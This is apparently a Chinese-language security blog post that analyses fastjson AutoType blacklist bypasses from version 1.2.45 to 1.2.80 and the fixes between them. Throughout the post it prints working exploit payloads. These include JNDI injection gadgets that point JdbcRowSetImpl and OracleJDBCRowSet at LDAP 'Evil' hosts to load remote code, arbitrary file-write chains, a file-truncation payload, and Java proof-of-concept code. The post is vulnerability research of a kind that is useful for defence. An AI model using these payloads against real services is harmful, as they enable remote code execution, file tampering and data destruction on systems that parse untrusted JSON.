


fastjson 1.2.45
一个黑名单绕过
{
"@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory",
"properties":{
"data_source":"ldap://127.0.0.1:23457/Command8"
}
}1.2.25<=fastjson<=1.2.47
在这个版本中可以在不开启AutoTypeSupport的情况下，进行反序列化利用
在这个版本的ParserConfig#checkAutoType中
在AutoType为false的时候，前面如果为true的if语句就跳过了，但是在进入第二个如果其为false的if语句之前，尝试使用TypeUtils#getClassFromMapping和deserializers.findClass来查找需要反序列化的类，如果找到，就不会进入第二个语句
这个链子主要是在TypeUtils#getClassFromMapping这里做文章，但是我们也来看看deserializers
private final IdentityHashMap<Type, ObjectDeserializer> deserializers;他是一个IdentityHashMap，可以在里面添加值得方法有
getDeserializer: 加载特定类或者有JSONType注解的类initDeserializers()：无入参，在构造方法中调用，写死一些认为没有危害的固定常用类，无法为我们所用。putDeserializer()：被前两个函数调用，我们无法控制入参。
然后看另一个查找类得方法
//TypeUtils#getClassFromMapping
public static Class<?> getClassFromMapping(String className) {
return (Class)mappings.get(className);
}从mappings中取值
//TypeUtils#mappings
private static ConcurrentMap<String, Class<?>> mappings = new ConcurrentHashMap(16, 0.75F, 1);是一个ConcurrentMap对象
能够赋值得方法有
addBaseClassMappings()：无入参，加载loadClass()：关键函数
这个函数有三个重载

Class<?> loadClass(String className, ClassLoader classLoader, boolean cache)：调用链均在checkAutoType()和TypeUtils里自调用，略过。Class<?> loadClass(String className)：除了自调用，有一个castToJavaBean()方法，暂未研究。Class<?> loadClass(String className, ClassLoader classLoader)：方法调用两个参数的重载方法，并添加参数 true ，也就是会加入参数缓存中
在com.alibaba.fastjson.serializer.MiscCodec#deserialze这个类是用来处理一些乱七八糟类的反序列化类，其中就包括 Class.class 类，成为了我们的入口。

我们来测试一下子，跟进一下他怎么加载到mappings中的
package pers.fastjson;
import com.alibaba.fastjson.JSON;
public class Fj47_Test {
public static void main(String[] args) {
String payload = "{\"@type\":\"java.lang.Class\",\"val\":\"aaaaa\"}";
JSON.parseObject(payload);
}
}
调用链如上

在这里调用了checkAutoType方法进行检查

由于 deserializers 在初始化时将 Class.class 进行了加载，因此使用 findClass 可以找到，越过了后面 AutoTypeSupport 的检查。
DefaultJSONParser.parseObject() 根据不同的 class 类型分配 deserialzer，Class 类型由 MiscCodec.deserialze() 处理

payload:
{
"RoboTerh": {
"@type": "java.lang.Class",
"val": "com.sun.rowset.JdbcRowSetImpl"
},
"demo": {
"@type": "com.sun.rowset.JdbcRowSetImpl",
"dataSourceName": "ldap://127.0.0.1:8888/EvilObject",
"autoCommit": true
}
}fastjson <= 1.2.68
对上个版本的修复
在 1.2.47 版本漏洞爆发之后，官方在 1.2.48 对漏洞进行了修复，在 MiscCodec 处理 Class 类的地方，设置了cache 为 false ，并且 loadClass 重载方法的默认的调用改为不缓存，这就避免了使用了 Class 提前将恶意类名缓存进去。
更新了一个新的安全控制点 safeMode，如果应用程序开启了 safeMode，将在 checkAutoType() 中直接抛出异常，也就是完全禁止 autoType
漏洞概述
在这个版本中主要是通过利用checkAutoType中的参数expectClass
在ParserConfig#checkAutoType中, 如果想要加载的类不在白名单中，如果开启了autoTypeSupport或者expectClassFalg为True都是可以的，这里我们需要在不开启autoTypeSupport的情况下，加载类，所以我们需要使得后者为true
如上图所示，想要expectClassFlag满足条件，就需要绕过这些内置的黑名单了
所以绕过的方法为：
- 以某个类作为
expectClass参数传入checkAutoType - 查找反序列化
expectClass的子类或实现，如果构造方法或setter中含有其它类型可重复第一步构造一个反序列化链，直到找到可以利用的类为止
漏洞分析
总体
我们需要寻找有哪些类或者接口可以通过校验，存有：
- 白名单（符合白名单条件的类）
- TypeUtils.mappings （符合缓存映射中获取的类）
- typeMapping （ParserConfig中本身带有的集合）
- deserializers （符合反序列化器的类）
在TypeUtils#getClassFromMapping处打下断点，查看TypeUtils.mappings的可用类或接口

这里面有很多，比如这个java.lang.AutoCloseable接口
使用的是JavaBeanDeserializer反序列化器， 在实例化对象的时候因为该类型是接口，则将会继续解析下一个JSON字段
如果存在而且为类型（@Type修饰）
就将这个接口作为expectClass参数传入checkAutoType检测下一个类型
很明显，这里不会被拦截，使得expectClassFlag为true
直接一路来到了类加载，绕过了AutoType的检测，成功加载了恶意类
package pers.fastjson;
import com.alibaba.fastjson.JSON;
public class Fj68TestPoc {
public static void main(String[] args) {
String payload = "{\"@type\":\"java.lang.AutoCloseable\", \"@type\":\"pers.fastjson.Fj68Test\", \"cmd\":\"calc.exe\"}";
JSON.parseObject(payload);
}
}对于java.lang.AutoCloseable的实现非常多，我们需要挖掘实现其的类
细节
期望类存在黑名单过滤
} else { if (expectClass == Object.class || expectClass == Serializable.class || expectClass == Cloneable.class || expectClass == Closeable.class || expectClass == EventListener.class || expectClass == Iterable.class || expectClass == Collection.class ) { expectClassFlag = false; } else { expectClassFlag = true; } }黑名单类，fastjson 在 denyHashCodes 里几乎把常见的容易造成漏洞的类都加进了黑名单，这就造成了攻击成本变高，如果要利用漏洞，只能花费更多的时间去寻未被发现的常用库 gadget
父类、父接口黑名单，fastjson 在判断期望类之前将继承自 ClassLoader、DataSource、RowSet 的类直接抛出异常。
if (ClassLoader.class.isAssignableFrom(clazz) // classloader is danger || javax.sql.DataSource.class.isAssignableFrom(clazz) // dataSource can load jdbc driver || javax.sql.RowSet.class.isAssignableFrom(clazz) // ) { throw new JSONException("autoType is not support. " + typeName); }而常用的 JNDI RCE 类基本上都继承自 DataSource 和 RowSet，所以能找到的 JNDI gadget 基本都无法在这个漏洞中使用。
以上三点足够让大部分常见的 gadget 无法使用
利用链
JNDI
这里主要是针对1.2.50版本及以前，因为在51版本就把OracleJDBCRowSet加入了黑名单
想要利用这个需要有oracle jdbc依赖
可以知道这里是实现了java.lang.AutoCloseable接口的，可以绕过autoTypeSupport
调用链如下

在OracleJDBCRowSet#getConnection中lookup的参数可控，通过调用getDataSourceName方法得到
跟进方法，为其父类的方法，且存在相应属性
那怎么调用getConnection方法呢？
在setCommand方法中存在调用

我们就可以设定一个command属性值，触发他的setter方法，达到触发漏洞的目的
Payload
{
"@type":"java.lang.AutoCloseable",
"@type":"oracle.jdbc.rowset.OracleJDBCRowSet",
"dataSourceName":"ldap://localhost:9999/Evil",
"command":"a"
}文件读写
写文件
浅蓝给的思路：
- 需要一个通过 set 方法或构造方法指定文件路径的 OutputStream
- 需要一个通过 set 方法或构造方法传入字节数据的 OutputStream，并且可以通过 set 方法或构造方法传入一个 OutputStream，最后可以通过 write 方法将传入的字节码 write 到传入的 OutputStream
- 需要一个通过 set 方法或构造方法传入一个 OutputStream，并且可以通过调用 toString、hashCode、get、set、构造方法 调用传入的 OutputStream 的 flush 方法
- 指定文件路径的 排错
{
"@type": "java.lang.AutoCloseable",
"@type": "java.io.FileOutputStream",
"file": "/tmp/test.txt",
"append": "false"
}但是这里出现了问题:
原因是在JavaBeanInfo#build方法中调用ASMUtils.lookupParameterNames(constructor)方法获取构造方法的参数名。如果没找到，则抛出上述异常
使用javap -l <classname>判断是否包含参数名信息
对比发现不同的JDK不一样
payload1
{
'@type':"java.lang.AutoCloseable",
'@type':'sun.rmi.server.MarshalOutputStream',
'out':
{
'@type':'java.util.zip.InflaterOutputStream',
'out':
{
'@type':'java.io.FileOutputStream',
'file':'/tmp/fj_hack_jdk11',
'append':false
},
'infl':
{
'input':
{
'array':'eJzzSK1USMqv1FHwVEjMVQjKT8oPSS3KAABRJwdZ',
'limit':30
}
},
'bufLen':1048576
},
'protocolVersion':1
}条件
需要时带有调试信息的JDK才可以利用成功(JDK11)
同样可以改造成适用于JDK8的payload“input”: “eJzzSK1USMqv1FHwVEjMVQjKT8oPSS3KAABRJwdZ”
简单分析
我们就按照内到外分析，通过
InflaterOutputStream的构造方法传入out参数是一个FileOutputStream指定的输出流路径的输出流对象，而另一个参数是infl是一个Inflater对象，通过调用他的setInput方法，指定buffer数据，值得注意的是他会使用com.alibaba.fastjson.serializer.ByteBufferCodec这个反序列化器进行处理，该反序列化器会将数据先反序列化为com.alibaba.fastjson.serializer.ByteBufferCodec$ByteBufferBean，然后再调用ByteBufferCodec$ByteBufferBean#byteBuffer()方法返回ByteBuffer对象最后呢，就通过最外层的
MarshalOutputStream的构造方法，最终执行了flush，成功写入文件因为这里存在一个解压数据的过程，我们就需要将想写入的数据，压缩之后base64编码
public class InflaterTest { public static byte[] zlibCompress(String message)throws Exception { String chatacter="UTF-8"; byte[] input = message.getBytes(chatacter); System.out.println("input length "+input.length); byte[] output = new byte[input.length+10+new Double(Math.ceil(input.length*0.25f)).intValue()]; System.out.println(output.length); Deflater compresser = new Deflater(); compresser.setInput(input); compresser.finish(); int compressedDataLength = compresser.deflate(output); System.out.println("compressedDataLength "+compressedDataLength); compresser.end(); return Arrays.copyOf(output, compressedDataLength); } public static byte[] zlibInfCompress(byte[] barr,String charater)throws Exception{ byte[] result=new byte[barr.length]; Inflater inf=new Inflater(); inf.setInput(barr); int infLen=inf.inflate(result); inf.end(); String strOgr=new String(result,charater); System.out.println("str ogr "+strOgr); return Arrays.copyOf(result, infLen); } public static void main(String[] args)throws Exception{ String str="Hey boy, I am RoboTerh"; byte[] def= InflaterTest.zlibCompress(str); String strBase=Base64.encodeBase64String(def); System.out.println("str base64 string "+strBase); byte[] decStr=Base64.decodeBase64(strBase); byte[] decode_str= InflaterTest.zlibInfCompress(decStr, "UTF-8"); String decStrOgr=new String(decode_str,"UTF-8"); System.out.println("decStrOgr "+decStrOgr); } }
payload2
{
'stream':
{
'@type':"java.lang.AutoCloseable",
'@type':'org.eclipse.core.internal.localstore.SafeFileOutputStream',
'targetPath':'/tmp/dst',
'tempPath':'/tmp/src'
},
'writer':
{
'@type':"java.lang.AutoCloseable",
'@type':'com.esotericsoftware.kryo.io.Output',
'buffer':'aGFja2VkIGJ5IFJvYm9UZXJoLg',
'outputStream':
{
'$ref':'$.stream'
},
'position':19
},
'close':
{
'@type':"java.lang.AutoCloseable",
'@type':'com.sleepycat.bind.serial.SerialOutput',
'out':
{
'$ref':'$.writer'
}
}
}其他类似
当然还有其他的利用链，比如第一个类使用
org.apache.tools.ant.util.LazyFileOutputStream指定输出流路径，第二个类使用org.apache.solr.common.util.FastOutputStream, 第三个使用org.iq80.snappy.SnappyOutputStream依赖：
<dependency> <groupId>org.aspectj</groupId> <artifactId>aspectjtools</artifactId> <version>1.9.5</version> </dependency> <dependency> <groupId>com.esotericsoftware</groupId> <artifactId>kryo</artifactId> <version>4.0.0</version> </dependency> <dependency> <groupId>com.sleepycat</groupId> <artifactId>je</artifactId> <version>18.3.12</version> </dependency>简单分析
首先在
stream中通过SafeFileOutputStream创建一个输出流对象，传入参数targetPathtempPath, 成功指定输出流路径
然后再writer中通过Output的无参构造方法，创建一个输出流对象，通过buffer的setter方法向缓冲区写入数据, 这里应该是base64，因为其调用链为ObjectArrayCodec.deserializer -> JSONScanner.bytesValue -> IOUtils.decodeBase64, 最后通过ouputStream的setter方法将输出流指向stream中最后在
close中通过SerialOutput创建一个输出流对象，并传入参数out, 指向writer中的输出流对象，最后会调用ObjectOutputStream的构造方法，最后调用Output.flush，成功写入a) 只要dst存在，PoC就会往src写数据，与src是否存在无关。
b) dst不存在、src存在时，先”mv src dst”，再往src写数据。
c) dst、src都不存在时才会往dst写数据。
清空文件
payload
{
"@type":"java.lang.AutoCloseable",
"@type":"java.io.FileOutputStream",
"file":"/tmp/nonexist",
"append":false
}- 条件
需要通过ASMUtils.lookupParameterNames()即需要保留有调试信息
- 分析
这里就是指定了一个路径的输出流，且设定为覆盖模式，且没有写入数据，导致清空文件内容
同样java.io.FileWriter也可以达到目的
fastjson <= 1.2.80
对上个版本的修复
将期望类java.lang.AutoCloseable加入了黑名单
漏洞分析
但是除了AutoCloseable可以进行绕过，Throwable也可以进行绕过，简单分析一下
主要是找到一个Deserializer可以将expressClass作为checkAutoType的参数，且能够突破expressClass的限制，正如这里的ThrowableDeserializer#deserialze中存在

这里限制了必须为Throwable类或子类，存在一个java.lang.Exception类，不仅在TypeUtils.mappings中存在，而且没有在黑名单中
所以只需要找到继承java.lang.Exception的类，就能够绕过检查
跟进代码，在第一次进入checkAutoType中的时候expectClass为null,
一直跟进到这里尝试从mappings中获取缓存
之后在ParserConfig#getDeserializer通过clazz获取到了反序列化器为ThrowableDeserializer
之后调用其derserialize方法，跟进
之后在这里获取下一个@type
最后在这里将java.lang.Exception类作为expressClass传入
也能够成功绕过黑名单的检验
参考
Fastjson v1.2.80 Throwable AutoType 机制绕过漏洞分析
寻找Fastjson 1.2.68 AutoCloseable利用链(3) (qq.com)


- Post link: https://roboterh.github.io/2022/04/01/Fastjson%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E2/
- Copyright Notice: All articles in this blog are licensed under unless otherwise stated.